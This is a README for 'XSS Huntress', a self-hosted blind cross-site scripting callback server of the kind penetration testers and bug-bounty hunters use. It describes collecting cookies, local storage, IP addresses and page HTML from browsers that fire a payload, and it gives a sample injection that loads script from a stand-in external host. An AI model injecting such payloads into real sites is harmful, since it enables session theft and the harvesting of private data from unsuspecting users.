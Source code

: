 <h1 align="center">XSS Huntress</h1>

<h4 align="center">My alternative to XSS Hunter for blind XSS.</h4>

<p align="center">
    <img src="https://img.shields.io/badge/php-%3E=7-blue" alt="php badge">
    <img src="https://img.shields.io/badge/license-MIT-green" alt="MIT license badge">
</p>

---

## Features

- web interface
- sends an email notification whenever a payload is fired
- data collected by client that fired payload: 
    - Time
    - URL
    - Referrer
    - IP
    - User Agent
    - Cookies
    - Local Storage
    - HTML of page that fired payload.
- reports stored in `sqlite` database


## Installation

1. Clone the repository:

```bash
git clone https://github.com/sfttw/xsshuntress.git
```

2. Navigate to the project directory:

```bash
cd xsshuntress
```

3. Install PHPMailer:

```bash
composer require phpmailer/phpmailer
```

4. Update the paths to the PHPMailer classes in `collect.php`:

```php
require 'path/to/PHPMailer/src/Exception.php';
require 'path/to/PHPMailer/src/PHPMailer.php';
require 'path/to/PHPMailer/src/SMTP.php';
```

5. Update the SMTP server settings and email addresses in `collect.php`:

```php
$mail->Host = 'smtp.example.com'; // Specify main and backup SMTP servers
$mail->Username = 'user@example.com'; // SMTP username
$mail->Password = 'secret'; // SMTP password
$mail->setFrom('from@example.com', 'Mailer');
$mail->addAddress('joe@example.net', 'Joe User'); // Add a recipient
```

6. Update nginx IP restriction to admin interface

```
        location ^~ /admin {
        allow 127.0.0.1; #EDIT IN YOUR IP ADDRESS 
        index display.php;
        deny all;
```
## Injection

As soon as the script is available online, you can use your favorite XSS payload:
```
<script src=http://x.example.com></script>
```

---

<img src="https://raw.githubusercontent.com/sfttw/xsshuntress/main/screenshot.png" />

---

## Configure domain

Using nginx, you can easily configure a vhost like this:

```
server {
        listen 80;
        listen [::]:80;

        server_name example.com;

        root /var/www/example.com;
        index collect.js;

        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.3-fpm.sock;
        }

        location ^~ /admin {
        allow 1.1.1.1; #EDIT IN YOUR IP ADDRESS 
        index display.php;
        deny all;

        # This will inherit the allow/deny from the outer location
        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.3-fpm.sock;
                }
        }

    listen [::]:443 ssl; # managed by Certbot
    listen 443 ssl; # managed by Certbot
    ssl_certificate /etc/letsencrypt/live/example.com/fullchain.pem; # managed by Certbot
    ssl_certificate_key /etc/letsencrypt/live/example.com/privkey.pem; # managed by Certbot

}
```

## Notes

1. The `collect.php` file collects the data from the client and stores it in the SQLite database. It also sends an email notification whenever a new entry is added to the database.

2. The `collect.js` file collects the data from the client and sends it to the server.

3. The `display.php` file displays the data stored in the SQLite database.


## To Do

- Improve web interface.
  
## Contributing

Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

## License

[MIT](https://choosealicense.com/licenses/mit/)

Feel free to [open an issue](/../../issues/) if you have any problem with the script.  

